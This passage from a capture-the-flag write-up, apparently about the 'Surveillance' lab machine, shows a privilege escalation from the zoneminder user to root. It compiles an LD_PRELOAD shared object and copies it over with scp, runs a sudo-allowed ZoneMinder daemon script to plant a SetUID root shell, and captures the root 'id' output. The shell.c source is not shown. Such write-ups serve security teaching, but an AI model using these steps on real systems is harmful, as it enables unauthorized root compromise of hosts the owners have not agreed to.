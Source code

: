 ```

```

I’ll compile it and copy it to Surveillance:

```

oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
oxdf@hacky$ scp -i ~/keys/ed25519_gen shell.so zoneminder@surveillance.htb:/tmp/
shell.so                                     100%   14KB  78.3KB/s   00:00

```

#### Exploit

I’ll update the setting in ZoneMinder. There seems to be a cron clearing this setting every minute, so it’s worth setting this again just before running the commands.

The command to run according to the help screen is `zmdc.pl`. Running it shows the help menu:

```

zoneminder@surveillance:/tmp$ sudo zmdc.pl
No command given
Usage:
    zmdc.pl {command} [daemon [options]]

Options:
    {command} - One of 'startup|shutdown|status|check|logrot' or
    'start|stop|restart|reload|version'. [daemon [options]] - Daemon name
    and options, required for second group of commands

```

It’s not clear where in the process ZoneMinder injects the `LD_PRELOAD`. It is clear the help menu is not enough.

Because I’m trying to “launch zmdc”, I’ll use the `startup` command:

```

zoneminder@surveillance:/tmp$ sudo zmdc.pl startup
Starting server

```

Now there’s a new SetUID/SetGID binary:

```

zoneminder@surveillance:/tmp$ ls -l 0xdf-root 
-rwsrwsrwx 1 root root 1396520 Apr 18 21:47 0xdf-root

```

Running with `-p` to not drip privs gives a shell with effective ids of root:

```

zoneminder@surveillance:/tmp$ ./0xdf-root -p
0xdf-root-5.1# id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) egid=0(root) groups=0(root),1001(zoneminder)

```
